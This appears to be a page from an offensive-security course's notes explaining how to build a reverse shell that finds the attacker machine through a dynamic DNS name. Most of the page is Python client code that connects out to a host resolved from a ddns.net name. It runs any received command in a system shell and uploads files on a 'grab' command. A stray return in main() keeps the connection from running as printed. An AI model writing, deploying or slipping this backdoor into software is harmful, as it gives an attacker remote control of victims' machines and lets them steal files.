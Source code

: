 ```yaml
---
title: Coding a DDNS aware shell
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - python
  - python pentesting
  - scripting
  - ddns
  - reverse shell
---
```


# Coding a DDNS aware shell

When coding a reverse shell you don't need to hardcode the IP address of the attacker machine. Instead, you can use a Dynamic DNS server such as https://www.noip.com/. To inform this server of our attacker IP public address we will install a linux dynamic client on our kali (an agent that will do the trick).

See [noip](../noip.md) to lear how to install a linux dynamic client on the attacker machine.

After installing the agent, let's see the modification needed on the client side of the [TCP reverse shell](coding-a-tcp-reverse-shell.md).


## Client side

```python

# Python For Offensive PenTest: A Complete Practical Course - All rights reserved 
# Follow me on LinkedIn  https://jo.linkedin.com/in/python2


import socket
import subprocess
import os

def transfer(s, path):
    if os.path.exists(path):
        f = open(path, 'rb')
        packet = f.read(1024)
        while len(packet) > 0:
            s.send(packet)
            packet = f.read(1024)
        s.send('DONE'.encode())
    else:
        s.send('File not found'.encode())
def connecting(ip):
    s = socket.socket()
    s.connect((ip, 8080))

    while True:
        command = s.recv(1024)

        if 'terminate' in command.decode():
            s.close()
            break

        elif 'grab' in command.decode():
            grab, path = command.decode().split("*")
            try:
                transfer(s, path)
            except:
                pass
        else:
            CMD = subprocess.Popen(command.decode(), shell=True,stdin=subprocess.PIPE, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
            s.send(CMD.stderr.read())
            s.send(CMD.stdout.read())
def main():
    ip = socket.gethostbyname('cared.ddns.net')
    print (ip)
    return
    connecting(ip)
main()

```
